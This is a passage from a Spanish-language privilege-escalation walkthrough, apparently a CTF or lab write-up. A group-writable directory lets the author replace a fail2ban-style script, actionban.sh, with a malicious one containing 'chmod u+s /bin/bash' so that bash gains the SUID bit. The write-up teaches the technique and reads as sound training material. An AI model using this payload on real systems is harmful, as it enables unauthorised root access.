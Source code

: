 Ahora existe un directorio **.** el cual tiene como grupo propietario **security**, Revisando a los grupos a los que pertenecemos:
```bash
id
uid=1001(memesploit) gid=1001(memesploit) groups=1001(memesploit),100(users),1003(security)
```

Y para grupo propietario tenemos capacidad de:
```bash
r = Lectura
w = Escritura
x = Ejecucion
```

Ahora revisamos todos los archivos en busca de un posible fallo:
```bash
cat actionban.sh

#!/bin/bash

# Ruta del archivo que simula el registro de bloqueos
BLOCK_LOG="/tmp/block_log.txt"

# Función para generar una IP aleatoria
generate_random_ip() {
    echo "$((RANDOM % 255 + 1)).$((RANDOM % 255 + 1)).$((RANDOM % 255 + 1)).$((RANDOM % 255 + 1))"
}

# Generar una IP aleatoria
IP_TO_BLOCK=$(generate_random_ip)

# Mensaje de simulación
MESSAGE="Simulación de bloqueo de IP: $IP_TO_BLOCK"

# Mostrar el mensaje en la terminal
echo "$MESSAGE"

# Registrar el intento de bloqueo en el archivo
echo "$(date): $MESSAGE" >> "$BLOCK_LOG"

echo "El registro ha sido creado en $BLOCK_LOG con la IP $IP_TO_BLOCK"
```

Ahora lo que aremos es intentar modificar el nombre de este archivo: **actionban.sh**  
```bash
mv actionban.sh actionban.txt
```

Ahora creamos el nuestro malicioso:
```bash
nano actionban.sh
```

con las siguientes instrucciones:
```bash
chmod u+s /bin/bash
```
